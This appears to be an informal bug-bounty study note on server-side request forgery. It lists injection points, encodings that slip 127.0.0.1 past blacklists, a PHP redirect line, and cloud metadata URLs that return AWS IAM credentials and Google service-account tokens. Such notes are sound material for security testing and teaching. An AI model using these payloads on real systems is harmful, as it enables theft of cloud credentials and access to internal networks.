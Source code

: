 # SSRF

## WHERE

### File Upload	(SVGs, JPGs, XMLs and JSONs)
	
#### SVGs : 

- Proxies
- Admin Configuration
- Webhooks
- URLs embedded in files that are processed by the application
- Hidden API endpoints that accept URLs as input
- HTML tag injections

## BYPASS

### Whitelist
	
* Open redirect
* @ , # , / , . 
* Encoding ?

### Blacklist
	
* Encoding
	
		. Hex : 127.0.0.1 translates to 0x7f.0x0.0x0.0x1
		. Octal : 127.0.0.1 translates to 0177.0.0.01
		. DWord : 127.0.0.1 translates to 2130706433
		. URL Encoding : localhost translates to %6c%6f%63%61%6c%68%6f%73%74
		. Mixed : 127.0.0.1 translates to 0177.0.0.0x1

* Ip V6
* DNS 
* Redirect : <?php header(“location: http://127.0.0.1"); ?> / TinyUrl 

## EXPLOIT

### Collect instance metadata 
	
#### AWS

	* http://169.254.169.254/latest/meta-data/ returns the list of available metadata that you can query.

	* http://169.254.169.254/latest/meta-data/local-hostname/ returns the internal hostname used by the host.

	* http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME returns the security credentials of that role.

	* http://169.254.169.254/latest/dynamic/instance-identity/document reveals the private IP address of the current instance.

	* http://169.254.169.254/latest/user-data/ returns user data on the current instance. 

#### GOOGLE

	* http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token returns the access token of the default account on the instance.

	* http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-key returns public SSH keys that can connect to other instances in this project.

### fingerprinting : 
	
* internally : port scanning, other services on internal ip ? 

		. Internal adress : https://en.wikipedia.org/wiki/Reserved_IP_addresses
		. 127.0.0.0/8
		. 192.168.0.0/16
		. 10.0.0.0/8

* externally : user agent in dns/http request

### Bypass access controls

### RCE ???

## LINKS

- SSRF Bible : <https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit#heading=h.kwcnj7jh5zyy>

- Vickie Li : <https://medium.com/@vickieli/sitemap-xml-6ecc3b14b4f>

- Internal adress : <https://en.wikipedia.org/wiki/Reserved_IP_addresses>

- Common ports : <https://packetlife.net/media/library/23/common-ports.pdf>
	
- AWS EC2 Docs: <http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html> (includes a comprehensive Instance Metadata Categories table)
	
- Toutes les references possibles !!! : <https://medium.com/@pravinponnusamy/ssrf-payloads-f09b2a86a8b4>

